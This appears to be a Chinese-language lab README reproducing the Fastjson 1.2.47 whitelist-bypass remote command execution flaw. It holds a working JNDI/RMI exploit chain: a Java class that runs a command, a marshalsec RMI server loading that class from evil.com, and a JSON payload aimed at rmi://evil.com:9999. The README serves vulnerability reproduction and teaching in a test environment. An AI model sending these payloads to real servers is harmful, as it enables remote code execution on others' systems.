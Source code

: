 # Fastjson 1.2.47 远程命令执行漏洞

Fastjson 是阿里巴巴公司开源的一款 JSON 解析器，其性能优越，被广泛应用于各大厂商的 Java 项目中。Fastjson 于 1.2.24 版本后增加了反序列化白名单，而在 1.2.48 以前的版本中，攻击者可以利用特殊构造的 JSON 字符串绕过白名单检测，成功执行任意命令。

参考链接：

- <https://cert.360.cn/warning/detail?id=7240aeab581c6dc2c9c5350756079955>
- <https://www.freebuf.com/vuls/208339.html>

## 环境搭建

执行如下命令启动一个 Spring Web 项目，其中使用 Fastjson 作为默认 JSON 解析器：

```shell
docker compose up -d
```

环境启动后，访问 `http://your-ip:8090` 即可看到一个 JSON 对象被返回。我们将 Content-Type 修改为 `application/json` 后可向其 POST 新的 JSON 对象，后端会使用 Fastjson 进行解析。

## 漏洞复现

目标环境是 `openjdk:8u102`，这个版本没有 `com.sun.jndi.rmi.object.trustURLCodebase` 的限制，我们可以简单利用 RMI 进行命令执行。

首先编译并上传命令执行代码，如 `http://evil.com/TouchFile.class`：

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

然后使用 [marshalsec](https://github.com/mbechler/marshalsec) 项目启动一个 RMI 服务器，监听 9999 端口，并指定加载远程类 `TouchFile.class`：

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 9999
```

向目标服务器发送 Payload：

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/Exploit",
        "autoCommit":true
    }
}
```

![](1.png)

如下图所示，命令 `touch /tmp/success` 已成功执行：

![](2.png)

更多利用方法请参考 JNDI 注入相关知识。
